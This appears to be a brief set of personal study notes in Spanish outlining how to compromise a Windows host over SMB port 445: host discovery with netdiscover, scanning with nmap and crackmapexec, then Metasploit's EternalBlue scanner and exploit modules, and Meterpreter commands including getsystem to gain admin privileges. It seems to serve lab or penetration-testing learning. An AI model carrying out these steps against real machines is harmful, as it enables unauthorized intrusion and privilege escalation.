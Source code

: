 # PORT: 445 
### 1. netdiscover
Comndo usado para ver los IP en la red

### 2. nmap -F/f/Sv IP victima
Comando usado para ver los puertos abiertos
* vamos a usar el 445
  
### 3. crackmapexec smb IP victima 
Comando usado para obtener el sitema operativo 

### 4. Metasploit
1. search eternal 
2. use 3 
   
   Es un axuliar que me ayuda a descubir si el sistema es vulnerable al exploit a utilizar
   * set RHOST IP victima
   * options
3. run 
   
   Me va a decir si es vulnerable o no
4. back
5. search eternal 
6. use 0

   Es el exploit a utilizar
7. set RHOST IP victima
8. exploit

### 9. METERPRETER
* sysinfo
* getuid
* ?
* getsystem(me da privilegios de admi)

